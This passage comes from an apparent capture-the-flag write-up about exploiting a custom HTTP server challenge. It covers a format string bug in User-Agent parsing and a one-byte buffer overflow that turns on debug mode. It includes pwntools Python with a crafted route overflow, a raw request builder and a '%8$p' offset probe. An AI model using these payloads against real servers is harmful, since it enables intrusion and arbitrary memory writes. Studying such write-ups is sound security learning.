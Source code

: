 ```C
  }
}
```

Here, the `user-agent` header is parsed. If the `user-agent` is `curl` (e.g. `curl/7.81.0`), and `ctx->debug` is not `false`, it tries printing the curl version. Here lies a crucial `format string vulnerability`.

```C
printf(pcVar7);
```

The `curl` version string is printed without a format specifier. This gives us an arbitrary write primitive.

We have established `PRIV_MODE` as our target already, so it's time to combine everything together.

### Exploitation

So, to recap, we will be exploiting a buffer overflow and a format string vulnerability.

They both need to happen on the same request, since a new `ctx` struct is used for every request, and thus the overwrite on `ctx->debug` through the buffer overflow would be useless on the next request we send.

Let's start with a basic template for our challenge:

```python
#!/usr/bin/env python3
import socket
from pwn import *

_bin = "../challenge/server"
elf = ELF(_bin, checksec=False)
context.binary = elf

ip = "localhost"
port = 1337

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect((ip, port))
```

The first part is very easy, we will simply write one byte past the size of the mime type buffer (32 bytes), overwriting the `ctx->debug` field with a non-zero value.

```python
# overflow ctx->debug
route = b"xxxx.html"
route += b"A" * (33 - 4) # "html" len = 4
```

This will enable the debug messages, unlocking the format string vulnerability hidden in the `parse_headers()` function.

```python
def send_req_pload(route, headers={}):
  request = b"GET " + route + b" HTTP/1.1\r\n"
  for key, value in headers.items():
    if isinstance(key, str): key = key.encode()
    if isinstance(value, str): value = value.encode()
    request += key + b": " + value + b"\r\n"
  request += b"\r\n"
  sock.sendall(request)

header_pload = b"curl" # "/" missaligns the payload - skip it since its not being checked

# use this to find the offset ( = 8 )
header_pload += b"AAAAAAAA%8$p"
```